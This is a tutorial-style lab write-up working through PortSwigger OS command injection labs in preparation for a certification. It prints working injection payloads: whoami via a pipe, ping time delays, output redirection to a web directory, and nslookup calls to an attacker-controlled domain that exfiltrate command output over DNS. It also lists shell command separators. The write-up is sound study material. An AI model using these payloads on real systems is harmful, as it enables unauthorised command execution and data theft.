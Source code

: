 ```yaml
---
title: OS Command Injection - Portswigger Labs
description: OS Command Injection - Portswigger Labs
excerpt:
  Command Injection, allows an attacker to execute operating system (OS) commands on the server that is running an application and typically fully compromise the application and its data.
datetime: 2024-05-09T21:33:07.000+00:00
tags:
  - Command Injection
  - Portswigger
  - Labs
featured: true
category: Tutorial
author: Nicolas Gula
type: article
coverImage:  https://cdn.acunetix.com/wp-content/uploads/2019/06/11110845/command-injection.png
coverImageAlt: Microsoft AD
coverImageWidth: "2725"
coverImageHeight: "1400"
ogImage: "/assets/blog/hello-world/cover.jpg"
ogImageAlt: something
language: "Spanish"
---
```

----

As preparation for the eWPTX im going to work through the Portswigger labs. In this post im going to steal... take notes about OS command injection and resolve the labs. Let's get started!!!

## Whats is OS Command Injection ?
OS command injection, allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

## Lab 1 - OS Command Injection, simple case

>This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user. 

We go to the page and click in the "View Details" button.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

When we do click in "Check Stock",send a request with parameters `productId=1&storeId=2` to `/product/stock`
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

We change `storeId=2` for ...
```bash
productId=1&storeId=| whoami
```

and give us the name.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Blind OS command injection vulnerabilities
### Detecting blind OS command injection using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send.

```
& ping -c 10 127.0.0.1 &
```

## Lab 2 - Blind OS command injection with time delays
>This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

We go to the Submit feedback page
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

In the form put any data, send and capture with Burpsuite.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

After testing in all parameters with the payload ...
```
| ping -c 10 127.0.0.1 &
```
URL encoded ...
```
|+ping+-c+10+127.0.0.1+%26
```

![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

We see a delay of 9,440 milliseconds 🥳
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/5.png)

## Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file. The > character sends the output from the whoami command to the specified file. For example:

```
& whoami > /var/www/static/whoami.txt &
```

## Lab 3 - Blind OS command injection with output redirection

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/` The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the whoami command and retrieve the output. 

Same procedure like the lab before: go to the page of Submit Feedback,fill the form, send it, capture the request.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

We search for the parameter where inject the command
```
| whoami > /var/images/www/quiensoy.txt &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

## Exploiting Blind OS Command Injection Using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
```
& nslookup kgji2ohoyw.web-attacker.com &
```

## Lab 4 - Blind OS Command Injection with out-of-band Interaction

> This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

Same procedure 😮‍💨.....Copy the url from BurpCollaborator (Buy it! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
And uala!
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

## Next 

The out-of-band channel provides an easy way to exfiltrate the output from injected commands
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command
```
wwwuser.kgji2ohoyw.web-attacker.com
```

## Lab 5 - Blind OS Command Injection with out-of-band data exfiltration

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain. To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

🏃‍♀️Go to the page of Submit Feedback,🏃‍♀️ fill the form, 🏃‍♀️ send it, 🏃‍♀️capture the request, copy the link from Burp Collaborator (B - U -Y -- I - T - ! 😉⬇️)

```
| nslookup 'whoami' .blablablablabla.whatever.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Ways of injecting OS Commands

The following command separators work on both Windows and Unix-based systems
```
&
&&
|
||
```

Unix
```
;
0x0a
\n
```